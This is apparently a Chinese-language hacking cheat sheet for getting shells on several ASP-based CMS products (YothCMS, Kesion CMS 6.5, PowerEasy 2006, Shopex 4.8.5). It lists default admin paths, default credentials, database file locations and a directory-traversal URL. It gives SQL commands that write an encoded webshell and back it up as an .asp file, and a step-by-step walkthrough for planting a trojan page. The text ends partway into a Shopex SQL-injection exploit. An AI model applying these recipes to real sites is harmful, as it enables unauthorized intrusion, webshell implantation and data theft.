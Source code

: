 优斯科技企业网站管理系统(YothCMS)是一款完全开源免费的CMS。

默认后台：admin/login.asp

遍历目录：ewebeditor/manage/upload.asp?id=1&dir=../

数据库路径：%23da%23ta%23\%23db_%23data%23%23.asa


### 0x42 传信网络独立开发网站源码0day漏洞 

默认后台：system/login.asp

编辑器后台路径：ubbcode/admin_login.asp

数据库路径：ubbcode/db/ewebeditor.mdb

默认账号密码：yzm 111111


### 0x43 科讯cms 6.5后台拿shell

1.可以在数据库备份中找到网站的绝对路径

2.利用科讯SQL注入漏洞利用工具也能找到进入后台后执行sql命令：

create table E:\wenxiushi\wz001\\KS_Data\Collect\KS_Collect.Mdb.cmd (a varchar(50))

insert into E:\wenxiushi\wz001\KS_Data\Collect\KS_Collect.Mdb.cmd (a) values (‘┼攠數畣整爠煥敵瑳∨∣┩愾’)

接着数据库备份成1.asp 菜刀连接密码：#


### 0x44 动易2006后台拿shell 

进入后台后，我们在左边菜单栏中选择“系统设置”，然后在出现的菜单栏里选择“自定义页面管理”，

接着需要先添加一个自定义页面分类，选择“添加自定义分类”这个选项，分类名称与分类简介都可以随便填写。填写完毕后选择“添加”，系统提示添加成功。

下面再来选择“添加自定义页面”，“页面名称”随便输入，“所属分类”就是刚才建立的分类就可以了。“页面类型”和“页面路径”都不用管，保持默认.

不过如果没有改页面路径的话，默认生成的文件是在根目录下的，也就是http://www.xx.com/maer.asp.“文件名称”即输入生成的木马的文件名。

“页面简介”也不用管，下面就是页面内容了。这里填入小马的代码。一切完毕点击“添加”会提示保存自定义页面成功。最后一步是要生成我们的木马页面。

选择“自定义页面管理首页”，点击右边出现的“生成本页”就OK 了，成功获得动易的shell。


### 0x45 Shopex4.8.5 注入漏洞后台拿shell

关键词：powered by shopex v4.8.5

exp:

<html>

<head>

<title>Shopex 4.8.5 SQL Injection Exp</title>

</head>

<body>
